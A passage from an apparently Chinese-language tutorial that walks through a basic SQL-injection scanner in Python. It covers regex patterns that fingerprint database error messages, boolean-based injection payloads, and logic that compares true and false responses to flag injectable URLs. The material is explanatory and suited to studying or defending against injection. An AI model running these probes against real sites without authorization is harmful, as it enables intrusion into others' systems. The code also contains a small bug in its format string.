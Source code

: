 ```
DBMS_ERRORS = {                                                                     # regular expressions used for DBMS recognition based on error message response
    "MySQL": (r"SQL syntax.*MySQL", r"Warning.*mysql_.*", r"valid MySQL result", r"MySqlClient\."),
    "PostgreSQL": (r"PostgreSQL.*ERROR", r"Warning.*\Wpg_.*", r"valid PostgreSQL result", r"Npgsql\."),
    "Microsoft SQL Server": (r"Driver.* SQL[\-\_\ ]*Server", r"OLE DB.* SQL Server", r"(\W|\A)SQL Server.*Driver", r"Warning.*mssql_.*", r"(\W|\A)SQL Server.*[0-9a-fA-F]{8}", r"(?s)Exception.*\WSystem\.Data\.SqlClient\.", r"(?s)Exception.*\WRoadhouse\.Cms\."),
    "Microsoft Access": (r"Microsoft Access Driver", r"JET Database Engine", r"Access Database Engine"),
    "Oracle": (r"\bORA-[0-9][0-9][0-9][0-9]", r"Oracle error", r"Oracle.*Driver", r"Warning.*\Woci_.*", r"Warning.*\Wora_.*"),
    "IBM DB2": (r"CLI Driver.*DB2", r"DB2 SQL error", r"\bdb2_\w+\("),
    "SQLite": (r"SQLite/JDBCDriver", r"SQLite.Exception", r"System.Data.SQLite.SQLiteException", r"Warning.*sqlite_.*", r"Warning.*SQLite3::", r"\[SQLITE_ERROR\]"),
    "Sybase": (r"(?i)Warning.*sybase.*", r"Sybase message", r"Sybase.*Server message.*"),
}

```

通过正则，如果发现我们的正则语句，就可以判断出是哪个数据库了。

```
for (dbms, regex) in ((dbms, regex) for dbms in DBMS_ERRORS for regex in DBMS_ERRORS[dbms]):
        if(re.search(regex,_content)):
            return True

```

这个是我们的测试语句 [payload]。

```
BOOLEAN_TESTS = (" AND %d=%d", " OR NOT (%d=%d)")

```

用报错语句返回正确的内容和错误的内容进行对比。

```
for test_payload in BOOLEAN_TESTS:
    #正确的网页
    RANDINT = random.randint(1, 255)
    _url = url + test_payload%(RANDINT,RANDINT)
    content["true"] = downloader.request(_url)
    _url = url + test_payload%(RANDINT,RANDINT+1)
    content["false"] = downloader.request(_url)
    if content["origin"]==content["true"]!=content["false"]:
        return "sql fonud: %"%url

```

这一句：

```
content["origin"]==content["true"]!=content["false"]

```
